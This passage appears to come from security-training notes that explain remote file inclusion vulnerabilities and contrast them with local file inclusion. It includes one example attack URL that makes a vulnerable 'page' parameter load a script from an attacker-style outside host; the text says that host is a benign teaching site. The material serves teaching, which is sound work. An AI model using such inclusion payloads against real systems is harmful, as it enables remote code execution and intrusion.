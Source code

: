 Remote file inclusion (RFI) vulnerabilities are similar to LFI vulnerabilities. However, when an attacker exploits an RFI vulnerability, instead of accessing a file on the victim, the attacker is able to execute code hosted on his or her own system (the attacking system).

**NOTE** RFI vulnerabilities are trivial to exploit; however, they are less common than LFI vulnerabilities.

Figure 6-23 shows an example of exploiting a remote file inclusion vulnerability.

**_Figure 6-23_** _- Exploiting a Remote File Inclusion Vulnerability_

![[Pasted image 20240616104210.png]]

The attacker enters the following URL to perform the attack in Figure 6-23:

`http://192.168.78.8:66/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html`

In this example, the attacker’s website (http://malicious.h4cker.org/malware.html) is likely to host malware or malicious scripts that can be executed when the victim visits that site.

**NOTE** The URL [_http://malicious.h4cker.org/malware.html_](http://malicious.h4cker.org/malware.html) is a real URL, but it is not a malicious site. If you connect to it in a web browser, you will see a message similar to the one in Figure 6-23.

